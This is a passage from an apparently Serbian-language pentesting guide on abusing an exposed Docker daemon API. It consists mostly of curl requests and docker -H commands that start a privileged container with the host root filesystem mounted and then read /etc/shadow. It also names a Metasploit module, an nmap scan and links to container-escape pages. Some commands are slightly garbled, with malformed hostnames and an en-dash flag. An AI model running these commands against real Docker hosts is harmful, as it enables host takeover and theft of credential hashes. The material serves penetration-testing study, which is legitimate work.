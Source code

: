 ```bash
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket2376/containers/create?name=test -d '{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/start?name=test
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /mnt/etc/shadow"]}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/exec/140e09471b157aa222a5c8783028524540ab5a55713cbfcb195e6d5e9d8079c6/start -d '{}'
#Stop the container
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/stop
#Delete stopped containers
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/prune
```

Ako želite više informacija o ovome, više informacija je dostupno tamo gde sam kopirao komande: [https://securityboulevard.com/2019/02/abusing-docker-api-socket/](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)

#### Automatski

```bash
msf> use exploit/linux/http/docker_daemon_tcp
nmap -sV --script "docker-*" -p <PORT> <IP>
```

### Kompromitovanje

Na sledećoj stranici možete pronaći načine za **izlazak iz Docker kontejnera**:

{% content-ref url="../linux-hardening/privilege-escalation/docker-security/" %}
[docker-security](../linux-hardening/privilege-escalation/docker-security/)
{% endcontent-ref %}

Zloupotrebom ovoga je moguće izaći iz kontejnera, možete pokrenuti slab kontejner na udaljenoj mašini, izaći iz njega i kompromitovati mašinu:

```bash
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cat /mnt/etc/shadow
```

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py)

### Eskalacija privilegija

Ako se nalazite unutar hosta koji koristi Docker, možete [**pročitati ove informacije kako biste pokušali da povećate privilegije**](../linux-hardening/privilege-escalation/#writable-docker-socket).

### Otkrivanje tajni u pokrenutim Docker kontejnerima
